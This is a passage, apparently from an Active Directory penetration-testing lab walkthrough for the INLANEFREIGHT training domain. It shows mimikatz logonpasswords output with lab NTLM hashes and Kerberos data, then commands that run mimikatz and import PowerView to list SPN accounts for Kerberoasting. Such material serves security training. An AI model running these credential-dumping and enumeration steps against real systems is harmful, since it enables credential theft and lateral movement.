 ```powershell-session
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : fb ec 60 8b 93 99 ee 24 a1 dd bf fa a8 da fd 61 cc 14 5c 30 ea 6a e9 f4 bb bc ca 1f be a7 9e ce 8b 79 d8 cb 4d 65 d3 42 e7 a1 98 ad 8e 43 3e b5 77 80 40 c4 ce 61 27 90 37 dc d8 62 e1 77 7a 48 2d b2 d8 9f 4b b8 7a be e8 a4 20 3b 1e 32 67 a6 21 4a b8 e3 ac 01 00 d2 c3 68 37 fd ad e3 09 d7 f1 15 0d 52 ce fb 6d 15 8d b3 c8 c1 a3 c1 82 54 11 f9 5f 21 94 bb cb f7 cc 29 ba 3c c9 5d 5d 41 50 89 ea 79 38 f3 f2 3f 64 49 8a b0 83 b4 33 1b 59 67 9e b2 d1 d3 76 99 3c ae 5c 7c b7 1f 0d d5 fb cc f9 e2 67 33 06 fe 08 b5 16 c6 a5 c0 26 e0 30 af 37 28 5e 3b 0e 72 b8 88 7f 92 09 2e c4 2a 10 e5 0d f4 85 e7 53 5f 9c 43 13 90 61 62 97 72 bf bf 81 36 c0 6f 0f 4e 48 38 b8 c4 ca f8 ac e0 73 1c 2d 18 ee ed 8f 55 4d 73 33 a4 fa 32 94 a9
        ssp :
        credman :

Authentication Id : 0 ; 1284107 (00000000:0013980b)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70669 (00000000:0001140d)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname